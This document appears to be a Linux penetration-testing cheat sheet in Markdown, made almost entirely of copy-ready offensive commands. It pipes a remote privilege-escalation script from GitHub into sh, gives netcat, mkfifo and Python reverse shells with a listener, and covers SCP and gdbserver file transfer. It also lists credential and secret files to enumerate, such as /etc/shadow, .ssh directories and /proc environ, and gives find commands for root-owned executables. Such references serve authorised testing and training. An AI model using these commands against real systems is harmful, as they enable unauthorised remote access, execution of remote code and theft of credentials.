 # 🐧 Linux

- [Auto Script](#auto-script)
- [File Enumeration](#file-enumeration)
- [Gdbserver](#gdbserver)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Sudo](#sudo)


## Sudo
```
sudo -l
```

## Auto Script
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

## Reverse Shell
### Server
```
nc -lp 4444
```

### Netcat
```
nc ip 4444 -e /bin/bash
```

### Mkfifo
```
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Python
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

## SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```

## Gdbserver
*Port: 1337*
```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```

## File Enumeration
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`

### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command

```
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```
